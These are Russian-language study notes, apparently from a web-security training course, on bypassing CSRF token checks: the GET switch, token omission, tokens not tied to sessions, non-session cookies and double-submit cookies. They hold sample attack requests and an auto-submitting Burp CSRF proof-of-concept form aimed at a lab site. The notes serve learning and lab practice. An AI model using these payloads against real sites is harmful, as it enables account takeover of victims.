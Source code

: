
Уязвимости CSRF обычно возникают из-за неправильной проверки токенов CSRF.

Некоторые приложения правильно проверяют токен, когда запрос использует метод POST, но пропускают проверку, когда используется метод GET.

В этой ситуации злоумышленник может переключиться на метод GET, чтобы обойти проверку и провести CSRF-атаку:
```
GET /email/change?email=pwned@evil-user.net HTTP/1.1 

Host: vulnerable-website.com 
Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm
```


## Проверка токена CSRF от наличия токена

Некоторые приложения правильно проверяют токен, когда он присутствует, но пропускают проверку, если токен опущен.

В этой ситуации можно удалить весь параметр, содержащий токен (а не только его значение), чтобы обойти проверку и провести CSRF-атаку:
```
POST /email/change HTTP/1.1 
Host: vulnerable-website.com 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 25 
Cookie: session=2yQIDcpia41WrATfjPqvm9tOkDvkMvLm 

email=pwned@evil-user.net
```

## Токен CSRF не привязан к сеансу пользователя

Некоторые приложения не проверяют принадлежность токена тому же сеансу, что и пользователь, отправляющий запрос. Вместо этого приложение поддерживает глобальный пул выпущенных им токенов и принимает любой токен, который появляется в этом пуле.

В этой ситуации можно войти в приложение, используя свою собственную учетную запись, получить действительный токен, а затем передать этот токен пользователю-жертве в своей CSRF-атаке.
Пример атаки:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0add008d04f864ec80d308af00520073.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;mail&#46;ru" />
      <input type="hidden" name="csrf" value="UioocFoaSEHrZLGKxKhTV1MjKniXlrd9" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
## Токен CSRF привязан к внесеансовому файлу cookie.

Некоторые приложения привязывают токен CSRF к файлу cookie, но не к тому же файлу cookie, который используется для отслеживания сеансов.

Это может легко произойти, если приложение использует две разные платформы: одну для обработки сеансов и одну для защиты CSRF, которые не интегрированы друг с другом:
```
POST /email/change HTTP/1.1 
Host: vulnerable-website.com 
Content-Type: application/x-www-form-urlencoded Content-Length: 68 
Cookie: session=pSJYSScWKpmC60LpFOAHKixuFuM4uXWF; csrfKey=rZHCnSzEp8dbI6atzagGoSYyqJqTz5dv 

csrf=RhV7yQDO0xcq9gLEah2WVbmuFqyOq7tY&email=wiener@normal-user.com
```

Если веб-сайт содержит какое-либо поведение, позволяющее злоумышленнику установить файл cookie в браузере жертвы, то атака возможна. Злоумышленник может войти в приложение, используя свою собственную учетную запись, получить действительный токен и связанный с ним файл cookie, использовать поведение настройки файлов cookie для размещения своего файла cookie в браузере жертвы и передать свой токен жертве в ходе атаки CSRF.

##### Лаба
[[Лабораторная работа CSRF, где токен привязан к внесеансовому файлу cookie]]

## Токен CSRF просто дублируется в файле cookie.

Еще одна разновидность предыдущей уязвимости: некоторые приложения не ведут серверной записи выданных токенов, а вместо этого дублируют каждый токен в файле cookie и параметре запроса. Когда последующий запрос подтверждается, приложение просто проверяет, что токен, отправленный в параметре запроса, соответствует значению, отправленному в файле cookie. Иногда это называют защитой от CSRF «двойной отправки», и ее рекомендуют, поскольку ее легко реализовать и она позволяет избежать необходимости какого-либо состояния на стороне сервера:

```
POST /email/change HTTP/1.1 
Host: vulnerable-website.com 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 68 Cookie: session=1DQGdzYbOJQzLP7460tfyiv3do7MjyPw; csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa 

csrf=R8ov2YBfTYmzFyjit8o2hKBuoIjXXVpa&email=wiener@normal-user.com
```

В этой ситуации злоумышленник может снова выполнить CSRF-атаку, если веб-сайт содержит какие-либо функции настройки файлов cookie. Здесь злоумышленнику не нужно получать собственный действительный токен. Они просто изобретают токен (возможно, в необходимом формате, если он проверяется), используют поведение настройки файлов cookie для размещения своего файла cookie в браузере жертвы и передают свой токен жертве в ходе атаки CSRF.

##### Лаба
[[Лабораторная работа CSRF, где токен дублируется в файле cookie]]